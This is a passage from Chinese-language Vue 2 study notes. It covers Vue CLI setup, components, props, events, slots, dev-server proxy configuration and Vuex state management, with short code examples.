</body>
</html>
```

整个单文件组件引用流程和书写规范就结束了，主要的文件如图：


`xxxx.vue`文件运行，借助：

1、自己单独使用webpack 搭建工作流，借助一些第三方插件和node将.vue文件转换 成 .html 文件使得浏览器能够运行

2、Vue脚手架【vue官方团队，也是通过webpack经过一些node借助一些第三方插件打造的一个工作流，是一个搭建好的一个编译环境，可以直接使用】

----------------------所以，我们这里阐述vue脚手架的内容-----------------------

# 第3章：使用Vue脚手架

## 21.Vue脚手架

### 创建Vue脚手架

#### 1说明

- Vue脚手架是Vue官方提供的标准化开发工具（开发平台）
- 最新的版本是4.x
- 官方文档：https://cli.vuejs.org/zh/。
- CLI的全称是 command line interface 直译过来是：命令行接口工具

#### 2具体步骤

第一步（仅第一次执行）：全局安装@vue/cli

```shell
npm install -g @vue/cli
```

第二步：切换到你要创建项目的目录，然后使用命令创建项目

```shell
vue create xxxx
```

提示选择用哪个版本的Vue创建项目，这里移动光标，选择Vue2，回车


- babel：ES6转ES5需要用到的语法编译器
- eslint：语法检查器
- 等待创建


- 创建完成


第三步：启动项目

```shell
npm run serve
```

- 按步骤执行


- 启动成功


- 打开页面


- 停止程序
- crtl+c 连续两次即可




备注：

1、如果出现下载缓慢请配置npm淘宝镜像：

```sh
//该镜像已经过期
npm config set registry https://registry.npm.taobao.org

//请使用下面的最新的镜像
npm config set registry https://registry.npmmirror.com
```

2、Vue脚手架隐藏了所有webpack相关的配置，若想查看具体的webpack配置，请执行

```sh
vue inspect > output.js
```

3、执行完install命令，退出命令窗口，重新cmd打开，再输入vue测试是否安装成功。

```sh
//退回到上一层目录
cd 
//清空上面所有记录
cls
//新建一个文件夹
mkdir
```

4、vue create xxxx命令创建的项目中，包含

- vue脚手架
- 官方给你写好的HelloWord例子



### 分析脚手架结构

将项目用vscode打开，同样用终端启动。分析项目中对应文件的作用。



#### .gitignore

哪些文件或者文件夹不想接受git管理，在`.gitignore`这个文件中配置


#### babel.config.js

demo的控制文件。配置一些ES6转ES5的规则。【不需要我们去修改】


#### package.json

包的说明书。你的包叫什么名字，什么版本，使用的一些依赖，引入的一些库，一些短命令。



#### package-lock.json

包管理器。包版本控制文件。



#### README.md

对整个工程进行一个说明或者一个描述

#### src

下面的4个四个文件：

- assets - 一般放前端的静态资源：例如图片
- components 
- App.vue - 顶级父组件
- main.js - 入口文件



#### public

下面两个文件：

- favicon.ico - 网站图标
- index.html - 主页面



## 22.render函数

```js
new Vue({
  render: h => h(App),
}).$mount('#app')
```

替换成

```js
new Vue({
  render(createElement){
    return createElement('h1','你好啊')
  }
}).$mount('#app')
```

发现页面正常显示：


由此可以知道，render：是vue帮我们调用的，且利用入参createElement函数帮我们编译模板。

上面的代码：

```js
render(createElement){
    return createElement('h1','你好啊')
  }
```

简化可以写成：

```js
//函数写成箭头函数
//render:(createElement) =>{return createElement('h1','你好啊')}

//一个入参，可以去掉括号
//render:createElement =>{return createElement('h1','你好啊')}

//一个唯一返参，可以去掉return
render:createElement =>createElement('h1','你好啊')

//这便是main.js中写入模版精简的形式
render: h => h(App)
```

讨论main.js中的render函数的作用


我们之前独自写过main.js，格式是这样的：

```js
import App from "./App.vue";

new Vue({
    el:"#root",
    template:`<App></App>`,
    componements:{App}
})
```

那为什么vue创建的main.js不这么写呢。

我们将上面这段代码copy后，放入脚手架中，编译项目，可以看见控制台报错：



我们去调查，为什么vue不完整

在Es6引入第三方库的时候，我们一般写到某个路径下具体某个文件`xxx.js`

在vue引入第三方库的时候，我们一般只写到它的名字。

那么它具体引入的是哪个js，按住ctrl键，点击：


点击引用的vue文件，可以看到来到了node_moudles中


这儿能看见整个vue包含的文件。其实，`main.js`中`import Vue from 'vue'`只写到了这个vue包文件夹，具体指向的哪个js文件，需要依赖配置项：

`package.json`中的`module`的配置js。

这里可以看到是`dist/vue.runtime.esm.js`。这个js是个精简版的vuejs，它将模版解析器精简掉了，所以他没办法解析`template`配置项，产生报错。


打开`dist`文件夹，我们可以看见他下方有很多个vuejs，但是只有`Vue.js`是完整版的，其余的都是在它的基础上精简或者稍加改变的。


那么问题找到了，我们将`main.js`包中的引入换成完整版的：

```js
import Vue from 'vue'
```

替换为：

```js
import Vue from 'vue/dist/vue'
```

重新编译后，页面和控制台：


模版编译成功，控制台无报错。

为什么不使用这个完整版的vue呢。

`vue.runtime.esm.js`体积小，打包以后体积还能更小一点。且模版编译器最终，不应该出现在我们最终打包好的文件内。




**注意：**

组件中也有template标签，但是不用render函数去编译解析。

在`package.json`中专门引入了依赖包，去解析组件中的模版标签。

- **只有vm中的模版标签它解析不了，需要使用render函数**
- **脚手架中一般只有一个vm，render也只会在vm中出现一次**




## 23.修改默认配置

**脚手架的默认配置**

为了安全Vue将配置的文件隐藏起来，使用下面的这个命令可以将隐藏的文件形成一个.js文件显示在项目的根目录：

```sh
Vue inspect > output.js
```

虽然`output.js`是可以看见默认配置的，但是对这个文件的修改是无效果的。

如果要自定义配置，可以在项目的根目录下，新建一个文件`vue.config.js`

**修改脚手架默认配置**

官方文档解释位置：https://cli.vuejs.org/zh



例如，我们把main入口文件的名字改成自定义


原理：

- Vue底层基于webpack，webpack基于node
- 使用文件`vue.config.js`中的这块，重写webpack中修改的这一部分
- 使得核心部分能有修改入口，且不会对基本核心内部进行破坏造成影响

## 24.ref属性



**ref属性**

- 1.被用来给元素或子组件注册引用信息(id的替代者)

- 2.应用在htmi标签上获取的是真实DOM元素，应用在组件标签上是组件实例对象(vc)

- 3.使用方式:

  打标识:`<h1 ref="xxx">.....</h1>`或`<School ref="xxx"></School>`获取:`this.$refs.xxx`



获取Dom元素，原始写法：

```js
document.getElementById("text")
```

用ref写法

```vue
<div>
    <h1 ref="text" id="text">text</h1>
    <School ref="sch" id="sch"/>
</div>

<script>
....
methods:{
    showDOM(){
        //组件里的this都是vc
        //输出的是h1的整个DOM元素 - 基本标签ref可以当id用
        console.log(this.$refs.text)
        console.log(document.getElementById("text"))//结果同上
        
        //输出的是组件school的vc实例对象
        console.log(this.$refs.sch)
        //输出的是组件模版解析后的真实DOM
        console.log(document.getElementById("sch"))
    }
}
</script>
```

看一下输出ref：


看一下输出id：


## 25._props配置

**props的作用**：让组件接收外部传过来的数据

组件外属性传值：

```vue
<student name="张三" sex="男" age="18">
```

组件内接受，三种写法：

```js
//简单接受
props:['name','age','sex']

//接受的同时对数据进行类型限制
props:{
    name:String,
    sex:String,
    age:Number
}

//接受时限制是否必传、默认值以及类型
props:{
    name:{
        type:String, //限制name类型为String
        required:true //且为必传
    },
    sex:{
        type:Number,
        default:99 //不必传，没传时默认99
    },
    age:{
        type:String, 
        required:true
    },
}
```



备注:props是只读的，Vue底层会监测你对props的修改，如果进行了修改，就会发出警告，若业务需求确实需要修改，那么请复制props的内容到data中一份，然后去修改data中的数据。

例如：

```js
this.age = 19; //页面有效果，控制台有警告
```

Vue不建议在组件内部，修改外部传入的属性的属性值。

一般做法：

```js
//使用一个中间变量
data(){
return{
    changeAge:this.age
}
}

//修改中间变量，并使用中间变量
this.changeAge = 19
```



## 26.mixin混入

两个组件共享一个配置 ，实现复用方法的效果

```js
//新建一个共有.js文件
《hunhe.js》

//该文件中暴露共用配置方法
//export const为分别暴露，引入的时候需要带{}
export const hunhe ={
    methods:{
        ......
    }
}
    
//需要的组件中引入.js文件
import {hunhe} from '../hunhe.js'   

//组件中使用mixins配置项
mixins:[hunhe]
```

 

混合中data中的数据以及methods冲突，以组件为主，例如：

```js
//《hunhe.js》中
export const hunhe ={
    data(){
        return{
            a:1
        }
	}
}

//《组件student中》
	data(){
        return{
            a:99
        }
	},mixins:[hunhe]
	
	
console.log(this.a) //输出为99，以组件为准	
```

**但是！！！**

生命周期冲突，不以任何为主，都会执行

```js
//《hunhe.js》中
export const hunhe ={
    ...,
    mounted(){
    	console.log("11")
    }
}

//《组件student中》
	...,
    mounted(){
    	console.log("22")
    },mixins:[hunhe]
	
	
//启动后控制台输出：
//11
//22
```



## 27.插件

插件实际上是一个{ }对象

自定义插件必须有有个install函数

```js
//新建《plugins.js》
export default{
    install(Vue){
        ...
        //install的入参是Vue。
        //此函数中可以设定所有全局Vue能够设定的方法，并且让组件均能使用
    }
}

//main.js中引入插件
import pligins from './pligins.js'
    
//main.js中使用插件
Vue.use(pligins) //这句话或默认帮我们调用《plugins.js》中的install方法
```



插件功能:用于增强Vue
本质：包含install方法的一个对象，install的第一个参数是Vue，第二个以后的参数是插件使用者传递的数据。



## 28.scoped样式

scoped作用：让样式在局部生效，防止冲突

先看一个冲突



解决这个问题

在style标签里加上scoped属性

```vue
<style scoped>
    ....
</style>
```

原理：scoped原本就有作用域的意思，它在每个负责的标签样式后面都随机生成一个属性，配合样式选择器完成每个组件中引用同名样式的区分


## 29.浏览器本地存储

在浏览器打开某网页，未登录情况下搜索某关键字，发现能够有对应的历史记录。

此历史记录是浏览器将信息存在了本机的硬盘上，也叫浏览器本地存储

浏览器本地存储统称webStorage

1、存储内容大小一般支持5MB左右(不同浏览器可能还不一样)
2、浏览器端通过 Window.sessionStorage 和 Window.localStorage 属性来实现本地存储机制。

- localStorage
- sessionStorage

### localStorage.setItem

该方法接受一个键和值作为参数，会把键值对添加到存储中，如果键名存在，则更新其对应的值。

浏览器本地存储不是Vue独有的，是js就有的，用`.html`文件就可以实现编译。

- 保存本地存储

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>localStorage</title>
</head>
<body>
    <h2>localStorage</h2>
    <button onclick="s()">点击保存一个数据</button>

    <script type="text/javascript">
        function s(){
            //第一个API叫setItem，两个入参必须为字符串
            //重复添加同名的，会覆盖之前的值
            localStorage.setItem('msg','hello!') //msg hello!
            localStorage.setItem('msg2',666)     //msg2 666 
            localStorage.setItem('msg3',{'id':'001'})//不是字符串的会自动调toString，对象会存成[Object object]
            localStorage.setItem('msg4',JOSN.stringify(对象))
        }
    </script>
</body>
</html>
```


### localStorage.getItem

该方法接受一个键名作为参数，返回键名对应的值

- 读取本地存储

```html
    <script type="text/javascript">
        function s(){
        //第二个API叫getItem,会给一个字符串的返回值
          localStorage.getItem('msg')
            
         console.log(localStorage.getItem('msg')); //hello!
         console.log(JSON.parse(对象字符串));//对象的需要手动转换一下
        }
    </script>
```

### localStorage.removeItem

该方法接受一个键名作为参数，并把该键名从存储中删除

- 删除本地存储

```html
    <script type="text/javascript">
        function s(){
        //第三个API叫removeItem
         localStorage.removeItem('msg')
        }
    </script>
```

### localStorage.clear

该方法会清空存储中的所有数据。

- 清空本地存储

```html
    <script type="text/javascript">
        function s(){
        //第四个API叫clear
         localStorage.clear()
        }
    </script>
```



关闭浏览器，并不会自动清空浏览器本地存储。

但是！！！清除缓存，会清空浏览器本地存储。



### sessionStorage

sessionStorage的4个API和localStorage使用和功能效果是一样的。

控制台位置，在localStorage下面




**备注:**
1、SessionStorage存储的内容会随着浏览器窗口关闭而消失。
2、LocalStorage存储的内容，需要手动清除才会消失。
3、`xxxxxstorage.getItem(xxx)`如果xxx对应的value获取不到，那么getltem的返回值是null.
4、`JSON.parse(null)`的结果依然是null。



## 30.组件自定义事件

### 绑定【子传父】

子组件给父组件传值，三个写法：

- function

```vue
<!--父组件App.vue-->
<School :getSchoolName="getSchoolName"/>

props:['getSchoolName'],
methods:{
	getSchoolName(name){
		console.log("学校名："+name)
	}
}

<!--子组件School.vue-->
this.getSchoolName(this.name)
```


- $emit （自定义事件）

```vue
<!--父组件App.vue-->
<Student v-on:student="getStudentName"/>
<Student @student="getStudentName"/><!--简写-->

methods:{
	getStudentName(name){
		console.log("学生名："+name)
	}
}

<!--子组件Student.vue-->
this.$emit('student',this.name)
```


- ref （自定义事件）

```vue
<!--父组件App.vue-->
<Student ref="student"/>

methods:{
	getStudentName(name){
		console.log("学生名："+name)
	}
},
mounted:{
	this.$refs.student.$on('studentTest',this.getStudentName)
}

<!--子组件Student.vue-->
this.$emit('studentTest',this.name)
```



如果子传父的参数很多，三个办法：

- 挨个写入参

```js
this.$emit('demo',x,y,z,p...)

this.$refs.组件名.$on('demo',x,y,z,p...)
```

- 写成一个对象

```js
this.$emit('demo',{params})

this.$refs.组件名.$on('demo',{params})
```

- ES6写法，...a

```js
this.$emit('demo',this.name,...params)

this.$refs.组件名.$on('demo',this.name,...params)
```



### 解绑

解绑一个自定义事件

- $off

```vue
<!--父组件App.vue-->
<Student @student="getStudentName"/>

<!--子组件Student.vue-->

this.$off('student')
```

解绑多个自定义事件

- $off([事件名])

```vue
<!--父组件App.vue-->
<Student @student="getStudentName" @demo="getDemo"/>

<!--子组件Student.vue-->
this.$off(['student','demo'])
```

解绑所有的自定义事件

- $off()

```vue
<!--父组件App.vue-->
<Student @student="getStudentName" @demo="getDemo"/>

<!--子组件Student.vue-->
this.$off()
```



- 组件上也可以绑定原生DOM事件，需要使用`native`修饰符.

不使用`native`修饰符.会默认`@click`为自定义事件

```vue
<Student @student="getStudentName" @click.native="getDemo"/>
```

- `this.$refs.组件名.$on('事件名',回调函数)`里的回调函数需要写成箭头函数，或者直接定义在当前组件的methods中。否则this指向会有问题

```js
this.$refs.组件名.$on('事件名',()=>{})

//或者
methods:{
	demo(){}
}
this.$refs.组件名.$on('事件名',this.demo)
```



## 31.全局事件总线

### GlobalEventBus

一种组件间通讯的方式，适用于**任意组件间的通讯**

- 安装全局事件总线

```js
//《main.js》
new Vue({
	....
	beforeCreate(){
		Vue.prototype.$bus = this  //定义全局事件总线
	},
    ......
})
```

- 使用事件总线：

1、接受数据

```js
//《School.vue》
this.$bus.$on("事件名",回调函数)
```

2、提供数据

```js
//《Student.vue》
this.$bus.$emit("事件名",传递入参数据)
```

3、关闭总线中不用的自定义事件

```js
//《School.vue》
beforeDestroy(){
    this.$bus.$off('demo')
}
```


## 32.消息订阅与发布

### _pubsub

`pubsub.js`是一个第三方库，引用这个库可以在任意框架实现消息的订阅和发布。

```sh
npm i pubsub-js
```

`pubsub`是`publish`发布和`subscribe`订阅的组合简写

- 在组件中引入

```
import pubsub from 'pubsub-js'
```

- 订阅消息

```js
pubsub.subscribe('事件名'，回调函数(事件名，收到的数据){})
```

- 发布消息

```js
pubsub.publish('事件名'，事件名，传递入参数据)
```

- 销毁消息（ 取消订阅）

```js
//在订阅的组件内,通过id取消订阅
this.pubId = pubsub.subscribe('事件名'，回调函数(事件名，收到的数据){})

beforeDestroy(){
    pubsub.unsubscribe(this.pubId)
}
```

## 33.$nextTick

1. 语法`this.$nextTick(回调函数)`
2. 作用：在下一次DOM更新结束后执行其指定的回调
3. 什么时候用：当改变数据后，要基于更新后的新DOM进行某些操作时，要在$nextTick所指定的回调函数中执行



不写$nextTick，用定时器也是可以解决，等待DOM更新结束后执行的操作。

setTimeout(( )=>{ 基于更新后的新DOM进行某些操作 },2000)

只是官方推荐使用$nextTick



## 34.动画效果

实现一块元素从左边缓缓进入再离开的动画效果

- 原始css3的写法：

```vue
<!-- 合适时候换成go -->
<h1 class="come"></h1>

<style scoped>
    h1{
        background-color: burlywood;
    }

    .come{
        /* 播放这个动画 持续1s钟 */
        animation: demo 1s;
    }

    .go{
        /* 反转播放这个动画 持续1s钟 */
        animation: demo 1s reverse;
    }

    /* 动画：定义一个关键帧 起名叫demo */
    @keyframes demo {
        /* 左右来回变换 */
        from{
            /* 从左边 */
            transform: translateX(-100%);
        }
        to{
            transform: translateX(0px);
        }
    }
</style>
```

- Vue的实现写法

```vue
<!--transition标签包裹的就是过度动画  -->
<transition>
    <h1></h1>
</transition>

<style scoped>
    h1{
       background-color: burlywood;
    }

    /* 进入时激活：来 */
    .v-enter-active{
        /* 播放这个动画 持续1s钟 */
        animation: demo 1s;
    }

    /* 离开时激活：离开 */
    .v-leave-active{
        /* 反转播放这个动画 持续1s钟 */
        animation: demo 1s reverse;
    }

    /* 动画：定义一个关键帧 起名叫demo */
    @keyframes demo {
        /* 左右来回变换 */
        from{
            /* 从左边 */
            transform: translateX(-100%);
        }
        to{
            transform: translateX(0px);
        }
    }
</style>
```



如果`<transition>`有名字，则`.v-enter-active`开头需要将`v`替换成取的名字

```vue
<transition name="aaa"></transition>

<style scoped>
    .aaa-enter-active{
    }

    .aaa-leave-active{
    }
</style>
```

如果要第一次页面就显示动画，需要加上`appear`属性

```vue
<transition name="aaa" :appear="true"></transition>
```



- Vue的实现第二种写法

```vue
<transition>
    <h1></h1>
</transition>

<style scoped>
    h1{
       background-color: burlywood;
    }

    .v-enter-active,.v-leave-active{
        transition: 0.5s linear; /* 动画持续0.5s 匀速 */
    }
    /* 进入起点，离开终点 */
    .v-enter,.v-leave-to{
        transform: translateX(-100%);
    }
    /* 进入终点，离开起点 */
    .v-leave,.v-enter-to{
        transform: translateX(-100%);
    }
</style>
```

- 多个元素过度

```vue
<!-- 多个元素使用transition-group -->
<transition-group>
    <!-- 且每个元素必须有key值 -->
    <h1 key="1"></h1>
    <h1 key="2"></h1>
</transition-group>
```

- 集成第三方动画

有时候我们也集成一些好用的第三方库来帮我们完成好看的动画效果，npm网站：https://npmjs.com 上有这么这一个库，叫`animate.css`



这是一个成型的动画库，只需要引入，就能直接使用这个链接里的动画



用一个简单的例子：

- 安装这个库

```sh
npm install animate.css --save
```

- 组件里引入这个库

```js
import 'animate.css'
```

- 使用这个库
- 先选一个样式动画，复制
- 

```vue
<transition-group
                  apper
                  name="animate__animated animate__bounce"
                  enter-active-class="animate__swing"
                  >
</transition-group>
```

## 35.插槽

1. 作用：让父组件可以向子组件指定位置插入html结构，也是一种组件间通信的方式，适用于 父组件 ====>子组件
2. 分类：默认插槽、具名插槽、作用域插槽
3. 使用方式：

- **默认插槽**

```vue
父组件中:
    <Category>
        <div>html结构1</div>
    </Category>
子组件中:
<template>
	<div>
		<!--定义插槽 -->
        <slot>插槽默认内容...</slot>
	</div>
</template>
```

- **具名插槽**

```vue
父组件中:
<Category>
    <!-- 基本写法 -->
	<div slot="center">
		<div>html结构1</div>
    </div>
    
    <!-- 只有template可以这样写 -->
	<template v-slot:footer>
		<div>htm1结构2</div>
    </template>
</Category>

子组件中:
<template>
	<div>
		<!--定义插槽 -->
        <slot name="center">插槽默认内容...</slot>
        <slot name="footer">插槽默认内容...</slot>
	</div>
</template>
```

- **作用域插槽**

1. 理解：数据在组件的自身，但根据数据生成的结构需要组件的使用者来决定。
2. 具体编码：

```vue
父组件中:
<Category>
    <!-- scope没有d，注意和style那块区分-->
    <!-- scope收到传来的整个插槽对象的数据 -->
    <!-- scope里面入参scopeData包含有多个属性的值，如solt :a="11" :b="11" -->
    <!-- 引用则写成scopeData.a 或者scopeData.b -->
  <template scope="scopeData">
	<!-- 生成的是u1列表-->
	<u1>
        <li v-for="g in scopeData.games" :key="g">{{g}}</li>
    </u1>
  </template>
</Category>

<Category>
  <template slot-scope="scopeData">
	<!--生成的是h4标题 -->
	<h4 v-for="g in scopeData.games" :key="g">{{g}}</h4>   		   </template>
</Category>

子组件中:
<template>
	<div>
		<slot :games="games"></slot>
    </div>
</template>

<script>
....
data(){
    return{
       games:['1','2','3'] 
    }
}
</script>
```

最新写法

```vue
<!-- 旧的写法，现在还能用 -->
<!-- scope里面入参有多个，如solt :a="11" :b="11" -->
<template scope="{dataList}">

<!-- 最新写成 -->
<template solt-scope="{dataList}">
```


# 第四章：Vue拓展

## 36.Vue中的ajax请求

### 跨域配置代理

在开发的过程中，如何借助Vue脚手架，去解决ajax跨域的问题。

发送一个ajax的方法：

1. xhr    `new XMLHttpRequest()`  ： `xhr.open()` 和 `xhr.send()`
2. jQuery   对xhr进行封装   `$.get`  和  `$.post`   【因为jQuery中80%内容都是用于对DOM操作的封装，Vue避免对DOM进行操作，所以它不常用在Vue中】
3. axios     【Vue推荐使用】
4. fetch

我们这里选择使用axios

- 安装axios库

```sh
npm i axios
```

- 引入axios库

```js
import axios from 'axios'
```

- 使用

```js
methods:{
	demo(){
		//服务器地址
		axios.get('http://localhost:5000/demo').then(
			//成功回调
			response =>{ console.log(response.data)},
			//失败回调
			error =>{ console.log(error.message)}
		)
	}
}
```



`Access to XMLHttpRequest at 'http://localhost:5000/demo' from origin 'http://localhost:8080' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.`

访问规定：协议名，主机名，端口号 。三个一致，允许访问。

不一致，会请求，会查到数据，但是返回给请求方的时候报跨域错误。

解决跨域：

1. 服务器位置：通过配置cors，允许某部分请求头能够访问，解决跨域的问题。
2. jsonp ：借助script标签里的src属性，在引入外部资源的时候，不受同源策略限制的特点实现的。【只能解决get请求，post解决不了】
3. 配置代理服务器



#### 1. 配置代理 方式一

请求方 <======> 代理服务器 <=======> 目标服务器

1. niginx 反向代理服务器

2. vue-cli 借助vue脚手架帮我们开启一个服务器

   官方文档位置：https://cli.vuejs.org/zh/config/#devserver-proxy

   

- 写法：

在`vue.config.js`里添加下面的代码：

```js
//开启代理服务器
devServer:{
	proxy:'http://localhost:5000' //指向目标服务器
}
```

- 调用

这里只能找代理服务器发请求，代理服务器端口是8080

```
methods:{
	demo(){
		//服务器地址
		axios.get('http://localhost:8080/demo').then(
			//成功回调
			response =>{ console.log(response.data)},
			//失败回调
			error =>{ console.log(error.message)}
		)
	}
}
```



这样的代理配置有两个缺点：

1. 只能配置一个目标服务器
2. 如果`public`根文件夹下有静态资源，则直接返回了静态资源，不会请求代理服务器，如：

`http://localhost:8080/demo`会直接请求`demo.txt`文件，没有才请求代理服务器，有就直接返回`demo.txt`的信息。



#### 2. 配置代理 方式二

- 写法：

在`vue.config.js`里添加下面的代码：

```js
devServer: {
    proxy: {
      '/api': {
        target: '<url>',
        ws: true,
        changeOrigin: true
      },
      '/foo': {
        target: '<other_url>'
      }
    }
  }
```

- 先看第一部分

```js
devServer: {
    proxy: {
      '/api': {  //请求前缀，如果是以这个名字为前缀的，代理就转发
        target: 'http://localhost:5000', //请求的目标服务器
        ws: true,  //支持：websocket客户端与服务器间的一种通讯方式
        changeOrigin: true,//用于控制请求头重host的值。请求来源 返回成和目标服务器一致
        pathRewrite:{'^/api':''}  //重写路径，正则匹配以api开头的路径，全部替换成空。不然，访问目标服务器时也会带着请求前缀，导致接口404
      },
  }
 
 //前缀写在端口号后，方法名称前
 axios.get('http://localhost:8080/api/demo').then()
    
```

#### 3. vue-resource

vue-resource也是一个发送ajax请求的库，也是对xhr进行封装的，vue1.0使用广泛，现在官方已不再维护。

- 安装vue-resource

```sh
npm i vue-resource
```

- main.js中引入插件

```js
import vueResource from 'vue-resource'

Vue.use(vueResource)
```

- 使用同axios

```js
this.$http.get('http://localhost:8080/demo').then(
			//成功回调
			response =>{ console.log(response.data)},
			//失败回调
			error =>{ console.log(error.message)}
		)
```


## 37.Vuex插件

#### Vuex简介

概念：专门在 Vue 中实现**集中式**状态(数据)管理的一个 Vue 插件，对 vue 应用中
多个组件的共享状态进行集中式的管理(读/写)，也是一种组件间通信的方式，且适用于任意组件间通信。
Github 地址: https://github.com/vuejs/vuex



**集中式：**将所有接受方集中起来，发送一次，都能接受。

**分布式：**分成多个相同的，同时发送，都能接受。



#### Vuex工作原理图



#### 搭建Vuex环境

1. 安装插件：`npm i vuex`
2. 使用插件：`Vue.use(Vuex)`



在2022年2月7日，vue3成为了默认版本。也就是说，我们现在去执行`npm i vue`安装的就直接是vue3了。

vue3成为默认版本的同时，vuex也更新到了4版本。也就是说，我们现在去执行`npm i vuex`安装的是vuex4了。

而vuex的4版本，只能在vue3中使用。如果在vue2版本中使用vuex的4版本，就会出现报错。

- vue2中，只能用vuex的3版本
- vue3中，只能用vuex的4版本

我们现在用的vue2的框架环境，所以我们这里要引入3版本的vuex，命令为`npm i vuex@3`



**vuex安装后，存在一个store配置项，所有组件均能看见store：vc ==> store**

1. 创建文件：`src/store/index.js`，store文件夹与App.vue同级

   ```js
   //该文件用于创建Vuex中最为核心的store
   //引入Vue核心库
   import Vue from 'vue'
   //引入Vuex
   import Vuex from 'vuex'
   Vue.use(Vuex)
   
   //准备actions-用于响应组件中的动作
   const actions={}
   //准备mutations-用于操作修改数据(state)
   const mutations ={}
   //准备state-用于保存存储数据
   const state ={}
   
   //创建并暴露store
   export default new Vuex.Store({
   	actions,
   	mutations,
   	state,
   })
   ```

2.  在`main.js`中创建vm时引入`store`配置项

```js
.....
//引入store
import store from './store'
.....

//创建vm
const vm = new Vue({
    el:'#app',
    render:h=>h(App),
    store, //配置store直接简写
})
```

#### 基本使用

1. 初始化数据、配置 `actions`、配置`mutations`、操作文件`store.js`

   ```js
   ....
   //准备actions-用于响应组件中的动作
   const actions={
       jia(context,value){
           // console.1og('actions中的jia被调用了',ministore,value)
           context.commit('JIA',value)
       }
   }
   //准备mutations-用于操作修改数据(state)
   const mutations ={
       //执行加
   	JIA(state,value){
           // console.log('mutations中的JIA被调用了'state,value)
           state.sum += value
       }
   }
   //准备state-用于保存存储数据
   const state ={
       sum:0
   }
   ....
   ```

   

2. 组件中读取vuex中的数据：`$store.state.sum`

3. 组件中修改vuex中的数据：`$store.dispatch('action中的方法名',数据)`或`$store.commit('mutation中的方法名',数据)`



若没有网络请求或其他业务逻辑，组件中也可以越过actions，即，不写`dispatch`，直接编写`commit`




#### vuex开发者工具的使用


#### getters的使用

1. 概念：当state中的数据需要经过加工后再使用时，可以使用getters加工。

2. 在`store.js`中追加`getters`配置

   ```js
   .....
   const getters = {
       bigSum(state){
           return state.sum = 10
       }
   }
   
   //创建并暴露store
   export default new Vuex.Stroe({
       ......
       getters
   }) 
   ```

3. 组件中读取数据：`$store.getters.bigSum`

#### 四个map方法的使用

1. **mapState方法：**用于帮助我们映射`state`中的数据为计算属性

   ```js
   import {mapState} from 'vuex'
   
   computed:{
       //借助mapState生成计算属性:sum、schoo1、subject(对象写法)
       ...mapState({sum:'sum',school:'school',subjeCT:'subject')),
   	//借助mapstate生成计算属性:sum、schoO1、subject(数组写法)
       ...mapState([ 'sum','school','subjact']),
   },
   ```

   

2. **mapGetters方法：**用于帮助我们映射`getters`中的数据为计算属性

   ```JS
   import {mapGetters} from 'vuex'
   
   computed:{
       //借助mapGetters生成计算属性:bigsum(对象写法)
       ...mapGetters({bigSum:'bigSum'}),
   	//借助mapGetters生成计算属性:bigSum(数组写法)
       ...mapGetters(['bigSum'])
   },
   ```

   

3.  **mapActions方法：**用于帮助我们生成与`actions`对话的方法，即:包含` $store.dispatch(xxx)`的函数

   ```js
   import {mapActions} from 'vuex'
   
   methods: {
       //靠mapActions生成:incrementOdd、incrementwait(对象形式)
       ...mapActions({incrementOdd:'jia0dd',incrementWait:'jiaWait'})
   	//靠mapActions生成:incrementOdd、incrementWait(数组形式)
       ...mapActions(['jiaodd','jiawait'])
   },
   ```

   

4. **mapMutations方法：**用于帮助我们生成与`mutations`对话的方法，即:包含`$store.commit(xxx)`的函数

   ```js
   import {mapMutations} from 'vuex'
   
   methods:{
       //靠mapMutations生成:increment、decrement(对象形式)
       ...mapMutations({increment:'JIA',decrement:'JIAN'}),
   	//靠mapMutations生成:JIA、JIAN(数组形式)
       ...mapMutations(['JIA','JIAN']),
   },
   ```

   

   mapActions与mapMutaions使用时，若需要传递参数需要：在模板中绑定事件时传递好参数，否则参数是事件对象。

   

   

**一个前端随机生成唯一id的方法**

```js
import {nanoid} from 'nanoid'

Const id = nanoid();
```

**ajax调用接口**

```js
import axios from 'axios'

axios.get('接口').then(
	response =>{},
    error => { alert(error.message) }
)
```


#### 模块化&命名空间

`store`包下，`index.js`

```js
//求和相关的配置,开启命名空间
const countOptions={actions:{},mutations:{},state:{},getters:{},namespaced:true}
//人员管理相关的配置,开启命名空间
const personOptions={actions:{},mutations:{},state:{},getters:{},namespaced:true}

//创建并暴露store
export default new Vuex.Store({
    modules:{
        a:countOptions,
        b:personOptions
    }
})
```

模块化则分别将`index.js`中的两个部分，分成`count.js` `person.js`两个js，并精简`index.js`中的代码

```js
....
import countOptions from './count'
import personOptions from './person'

...
export default new Vuex.Store({
    modules:{
        countAbout:countOptions,
        personAbout:personOptions
    }
})
```

`xxx.vue`组件中

```js
computed:{
    //借助mapState生成计算属性，从state中取数据。(数组写法)
    ...mapState('countAbout',['sum','school','subject']),
    ...mapState('personAbout',['personList']),
    //借助mapGetters生成计算属性，从getters中读取数据。(数组写法)
    ...mapGetters('countAbout',['bigSum'])    
},
methods:{
    //借助mapMutations生成对应的方法，方法中会调用commit去联系mutations(对象写法)
    ...mapMutations('countAbout',{increment:'JIA',decrement:'JIAN'}),
    //借助mapActions生成对应的方法，方法中会调用dispatch去联系actions(对象写法)
    ...mapActions('countAbout',{incrementOdd:'jia0dd',incrementWait:'jiaWait'})
}
```

目的：让代码更好维护，让多种数据分类更加明确。

1. 开启命名空间后，组件中读取`state`数据:

   ```js
   //方式一：自己直接读取
   this.$store.state.personAbout.list
   //方式二：借助mapState读取
   ...mapState('countAbout',['sum','school','subject']),
   ```

2. 开启命名空间后，组件中读取`getters`数据:

   ```js
   //方式一:自己直接读取
   this.$store.getters['personAbout/firstPersonName']
   //方式二:借助mapGetters读取
   ...mapGetters('countAbout',['bigSum'])
   ```

3. 开启命名空间后，组件中调用`dispatch`

   ```js
   //方式一:自己直接dispatch
   this.$store.dispatch('personAbout/addPersonWang',person)
   //方式二:借助mapActions
   ...mapActions('countAbout',{incrementOdd: 'jia0dd',incrementWait:'jiawait'})
   ```

4. 开启命名空间后，组件中调用`commit`

   ```js
   //方式一:自己直接commit
   this.$store.commit('personAbout/ADD_PERSON',person)
   //方式二:借助mapMutations
   ...mapMutations('countAbout',{increment: 'JIA',decrement:'JIAN' }),
   ```

   

## 38.路由

###  路由的简介


1. 路由就是一组key-value的对应关系  =>route
2. 多个路由，需要经过路由器的管理  =>router

编码中的**路由**，**为了实现**SPA应用(single page web application)，也称**单页面应用**

- 单页面应用，指：只有一个`.html`文件的应用。如下图：


